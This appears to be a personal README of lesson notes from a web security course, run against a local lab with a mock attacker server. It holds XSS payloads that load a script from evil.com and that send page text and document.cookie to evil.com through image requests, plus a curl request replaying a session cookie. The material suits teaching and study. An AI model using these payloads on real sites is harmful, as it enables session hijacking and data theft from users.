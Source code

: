# Web Security Essentials

The code in this repository is based on the
[Web Security Essentials](https://egghead.io/lessons/express-course-overview-web-security-essentials)
course.
The preceding repository was also forked to
[this repo](https://github.com/carltonj2000/web-security-essentials)

## Setup

From the repository link in the above section, did the following:

- Used the code from `./exercises/01` as the starter code.
  - deleted `_INSTRUCTIONS.md` and `_SOLUTIONS.md`.
- Copied `./package.json` and ran `npm install` to install the dependencies.
- Ran `npm run start` and verified `http://localhost.charlesproxy.com`.
- Ran `npm run start:evil.com` and verified `https://evil.com:666`.
- Notes from each lessons follows in reverse chronological order.
- [Git hub repo](https://github.com/carltonj2000/web-sec-ess)
  created with all content note above.

## Lesson 12

---

<script src="https://evil.com:666/hijack.js"></script>

---

## Lesson 12

---

<script>
  var data = document.body.innerText;
  console.log(data);
  var payload = encodeURIComponent(data);
  var img = new Image();
  img.src = `https://evil.com:666/hijack?payload=${payload}`;
</script>

---

## Lesson 10

---

<script>
  var payload = encodeURIComponent(document.cookie);
  var img = new Image();
  img.src = `https://evil.com:666/hijack?payload=${payload}`;
</script>

---

## Lesson 1

In the `./exercises/01` ran `npm start` and `npm run start:evil.com`.
Use `proxyman` to capture a post request from `localhost.charlesproxy.com` and
modified the following lines to post a custom message. Deleted the proxy line.

---

-H 'Content-Length: 13' \
--proxy http://localhost:9090 \
-d 'message=hello'

---

---

curl 'http://localhost.charlesproxy.com/' \
-X POST \
-H 'Accept: _/_' \
-H 'Host: localhost.charlesproxy.com' \
-H 'Accept-Language: en-US,en;q=0.9,vi-VN;q=0.8,vi;q=0.7' \
-H 'Referer: http://localhost.charlesproxy.com/' \
-H 'Content-Length: 24' \
-H 'Content-Type: application/x-www-form-urlencoded' \
-H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.130 Safari/537.36' \
-H 'Origin: http://localhost.charlesproxy.com' \
-H 'Proxy-Connection: keep-alive' \
--cookie '\_ga=GA1.2.761887530.1582043871; \_gid=GA1.2.218915999.1582043871; connect.sid=s%3AzLtpL8zTUgQLX0EwsUX9uMuHwZTezm-z.pxrPgt%2BNCyiV678Gz%2BUUOfuUUhRXl%2FWuW2PyH204oLk' \
-d 'message=carlton+was+here'

---

